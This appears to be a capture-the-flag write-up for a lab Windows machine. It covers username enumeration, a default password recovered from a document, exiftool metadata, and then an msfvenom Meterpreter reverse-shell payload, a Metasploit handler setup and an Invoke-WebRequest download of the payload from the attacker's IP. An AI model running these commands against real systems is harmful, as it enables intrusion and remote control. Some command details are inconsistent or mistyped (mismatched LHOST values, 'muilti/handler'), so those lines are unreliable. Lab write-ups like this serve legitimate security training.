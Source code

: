 
Visiting https://atsserver.acute.local

<img width="1440" alt="image" src="https://user-images.githubusercontent.com/10171446/179352430-496305a4-ed6c-47bc-a692-ad11587dbd95.png">

Looking on the `about.html` page

<img width="923" alt="image" src="https://user-images.githubusercontent.com/10171446/179352461-6e2f96f5-34bd-445b-ab95-bfafc93c50ee.png">

Now we can generate a username list

    Awallace
    Chall
    Edavies
    Imonks
    Jmorgan
    Lhopkins

Also, `https://atsserver.acute.local/New_Starter_CheckList_v7.docx` contains useful information and a password

<img width="757" alt="image" src="https://user-images.githubusercontent.com/10171446/179352606-7e1e860e-74ba-4d9e-a95b-b5c94911a751.png">

<img width="795" alt="image" src="https://user-images.githubusercontent.com/10171446/179352634-7eb094dc-a45f-4d94-a530-42e4945899ea.png">

Using `exiftool` against New_Starter_CheckList_v7.docx reveals the hostname of the machine it was created on as `Acute-PC01`.

Address: https://atsserver.acute.local/Acute_Staff_Access
Username: `edavies`
Default Password: `Password1!`
Computer name: `Acute-PC01`

Now we have a powershell window!

Time for a reverse shell

    msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.129.136.40 LPORT=4000 -f exe > shell.exe
    
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 200774 bytes
    Final size of exe file: 207360 bytes


Kali:

    msfconsole
    use exploit/muilti/handler
    set LHOST=10.10.14.52
    set LPORT=4000
    
    
Powershell:
    Invoke-WebRequest "http://10.10.14.52:8000/shell.exe" -OutFile "shell.exe"


Skipped over some messy work
